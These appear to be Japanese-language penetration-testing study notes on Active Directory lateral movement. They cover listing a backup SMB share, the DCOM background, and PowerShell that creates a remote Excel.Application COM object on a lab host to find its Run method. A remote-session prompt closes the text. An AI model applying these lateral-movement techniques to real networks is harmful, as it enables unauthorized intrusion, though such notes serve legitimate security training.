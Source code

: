 SMB共有へのアクセス権が付与される

```
PS C:\Tools> ls \\web04\backup


    Directory: \\web04\backup


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/13/2022   2:52 AM              0 backup_schemata.txt
```



### DCOM(Distributed Component Object Model)

ネットワーク上の複数のコンピュータ間の相互作用のためにDCOM（Distributed Component Object Model）へと拡張

 DCOM とのやりとりは、TCP 135 番ポートの RPC で行われる

API である DCOM サービスコントロールマネージャを呼び出すには、ローカル管理者のアクセス権が必要

* オブジェクトのインスタンスを作成

  ```powershell
  $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.129.5"))
  
  $com | Get-Member
  ```

* RUNメソッドがあることを確認する

  ![image-20230113084001174](img/ActiveDirectory_lateralmove/image-20230113084001174.png)


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname